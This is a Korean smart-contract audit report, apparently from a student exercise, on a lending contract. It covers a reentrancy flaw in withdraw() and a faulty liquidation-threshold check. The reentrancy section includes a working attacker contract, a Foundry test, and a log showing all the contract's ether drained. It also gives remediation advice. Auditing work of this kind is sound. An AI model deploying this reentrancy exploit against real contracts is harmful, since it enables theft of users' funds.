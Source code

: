 ## 김남령

## 미구현된 부분: Accured Interest, Healthy

## 1. Reentrancy

### 설명

문제 코드: DreamAcademyLending.sol 내 withdraw() 함수 전체

withdraw 함수에서 예치한 이더리움 담보를 보낼 때 담보에 대한 정보를 업데이트 하지 않은 채로 송금을 먼저 수행하기 때문에 발생한 문제이다.

```java
function withdraw(address _tokenAddress, uint256 _amount) external{
  _update();
  uint256 availableWithdraw =  vaults[msg.sender].borrowUSDC *1e18 / oracle.getPrice(address(0x0)) * LTV / 100;
  VaultInfo memory tempVault = vaults[msg.sender];

  require(tempVault.collateralETH >= _amount, "INSUFFICIENT_AMOUNT");
  require(tempVault.collateralETH - availableWithdraw >= _amount);

  tempVault.collateralETH -= _amount;
  (bool success, ) = payable(msg.sender).call{value: _amount}("");
  require(success, "ERROR");

  vaults[msg.sender] = tempVault;

}
```

withdraw 함수는 tempVault라는 지역변수를 선언해 사용자의 담보 정보를 가져오는데, 이를 업데이트하는 `vaults[msg.sender] = tempVault;` 구문이 송금 이후에 위치해있다. 이는 Checks - Effects - Interaction 패턴에 벗어나며, 외부 함수의 호출로 인한 reentrancy 취약점이 발생할 수 있다.

### 파급력

Critical

-   산정 이유
    -   공격자가 1 wei만 가지고 있더라도 연속적인 공격 수행으로 lending 컨트랙트의 모든 이더리움 담보를 탈취할 수 있다.
-   공격 시나리오

    ```java
    contract Reentrancy {
      DreamOracle dreamOracle;
      DreamAcademyLending lending;
      address owner;
      constructor(DreamAcademyLending _lending){
          lending = _lending;
          owner = msg.sender;
      }

      function attack() external payable {
        require(msg.value >= 100 ether, "msg.value more than 1 ether");
        (bool success, )= address(lending).call{value: msg.value}(abi.encodeWithSelector(lending.deposit.selector, address(0x0), msg.value));
        (bool success2, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), msg.value));
      }

    	function transfer() public payable {
        (bool success,) = msg.sender.call{value: address(this).balance}("");
      }

      receive() external payable {
    	  uint targetBalance = address(lending).balance;
    	  if(targetBalance > 100 ether){
          (bool success3, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), 100 ether));
    	  }
      }
    }
    ```

    -   위와 같이 reentrancy를 유발하는 컨트랙트를 작성할 수 있다.
    -   공격자는 임의의 자산을 예치하고, 예치한 자산의 일부를 withdraw를 호출하여 돌려받는다.
    -   receive 함수에 다시 withdraw를 호출하는 구문을 넣어 withdraw로 이더리움을 돌려받는 데에 성공하면 다시한번 withdraw를 호출한다.
    -   Lending 컨트랙트 내에서 아직 vault의 값이 업데이트 되지 않았으므로 모든 조건을 통과하고 call with value를 수행한다.
    -   모든 자금을 탈취하면 attack 함수의 동작이 종료되고, reenterancy 컨트랙트는 lending 컨트랙트의 모든 자산을 갖게 된다.
    -   이렇게 탈취한 자산은 공격자가 가져갈 수 있다.

    ```java
    function testReentrancy() external {
      reentrancy = new Reentrancy(lending);
      vm.deal(user1, 1000 ether);
      supplySmallEtherDepositUser2();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
      vm.startPrank(user1);
        (bool success1,) = address(reentrancy).call{value: 100 ether}(abi.encodeWithSelector(reentrancy.attack.selector));
        (bool success3,) = address(reentrancy).call{value: 0 ether}(abi.encodeWithSelector(reentrancy.transfer.selector));
      vm.stopPrank();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
    }
    ```

    ```java
    [PASS] testReentrancy() (gas: 657090)
    Logs:
      user1 balance 1000
      reenter balance 0
      lending balance 1000
      0
      0
      0
      0
      0
      0
      0
      0
      0
      0
      0
      user1 balance 2000
      reenter balance 0
      lending balance 0
    ```

### 해결 방안

-   이더리움 송금 구문 이전에 vault의 값을 업데이트해주어야 한다

## 2. False Liquidation Threshold

### 설명

문제 코드: DreamAcademyLending.sol 내 liquidate함수, 111번 줄

-   Liquidation threshold를 계산하는 과정이 잘못되었다.

```java
uint price = vaults[_user].borrowUSDC * (oracle.getPrice(address(0x0))/oracle.getPrice(_tokenAddress));
require(price > oracle.getPrice(address(0x0))*75/100);
```

-   빌린 USDC의 가치를 ETH 기준으로 환산한 값과 현재 ETH 가격을 비교해서 75% 이하인 경우 청산을 시작한다.
-   Liquidation은 빌린 돈의 가치가 “담보”의 75% 아래일 때를 기준으로 계산해야 한다.
-   현재는 담보를 1 ETH로 가정하고 식을 세웠다.

### 파급력

High

-   산정 이유
    -   담보가치가 급격히 떨어지지 않는 한 누구의 자산이든 청산을 요구할 수 있다.
    -   담보를 1 ETH로 고정해두었기 때문에 높은 가치의 자산일수록 청산되기 쉽다.
    -   DEX의 효용성을 매우 떨어뜨리며, 공격의 접근성이 아주 높다.

### 해결 방안

-   부등호의 방향을 바꿔야 하며, 1 ETH가 아닌 실제 담보가치가 부채보다 25% 이상 낮을 경우 청산이 시작되도록 고친다.

```java
require(price <= ${Collateral_Amount} * oracle.getPrice(address(0x0)) * 75/100);
```
